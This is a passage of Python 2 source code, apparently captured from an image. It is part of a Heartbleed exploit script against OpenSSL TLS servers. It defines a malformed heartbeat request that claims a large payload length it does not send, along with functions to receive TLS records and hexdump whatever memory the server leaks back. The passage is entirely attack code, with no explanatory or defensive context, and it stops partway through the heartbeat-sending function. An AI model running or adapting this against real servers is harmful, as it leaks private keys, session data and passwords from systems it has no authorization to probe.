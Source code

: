 	hb = h2bin(''' 
	18 03 02 00 03
	01 40 00
	''')
	 
	def hexdump(s):
	    for b in xrange(0, len(s), 16):
	        lin = [c for c in s[b : b + 16]]
	        hxdat = ' '.join('%02X' % ord(c) for c in lin)
	        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
	        print '  %04x: %-48s %s' % (b, hxdat, pdat)
	    print
	 
	def recvall(s, length, timeout=5):
	    endtime = time.time() + timeout
	    rdata = ''
	    remain = length
	    while remain > 0:
	        rtime = endtime - time.time() 
	        if rtime < 0:
	            return None
	        r, w, e = select.select([s], [], [], 5)
	        if s in r:
	            data = s.recv(remain)
	            # EOF?
	            if not data:
	                return None
	            rdata += data
	            remain -= len(data)
	    return rdata
	 
	 
	def recvmsg(s):
	    hdr = recvall(s, 5)
	    if hdr is None:
	        print 'Unexpected EOF receiving record header - server closed connection'
	        return None, None, None
	    typ, ver, ln = struct.unpack('>BHH', hdr)
	    pay = recvall(s, ln, 10)
	    if pay is None:
	        print 'Unexpected EOF receiving record payload - server closed connection'
	        return None, None, None
	    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
	    return typ, ver, pay
	 
	def hit_hb(s):
	    s.send(hb)
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ is None:
	            print 'No heartbeat response received, server likely not vulnerable'
	            return False
	 